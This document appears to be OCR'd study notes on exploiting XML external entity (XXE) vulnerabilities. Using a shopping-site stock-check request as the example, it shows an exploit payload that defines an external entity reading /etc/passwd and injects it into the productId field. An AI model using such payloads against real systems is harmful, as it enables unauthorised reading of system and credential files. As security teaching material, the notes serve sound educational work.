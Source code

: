 --- ---

<h2>Exploiting XXE to Retrieve Files</h2>

- Need to modify submitted XML in two ways
	- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to a file.
	- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

- Example -- shopping application checking for stock by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId><
/stockCheck>
```

- Exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></st
ockCheck>
```

Define an external entity (&xxe;) whose value is the contents of /etc/passwd and uses the entity within the productId value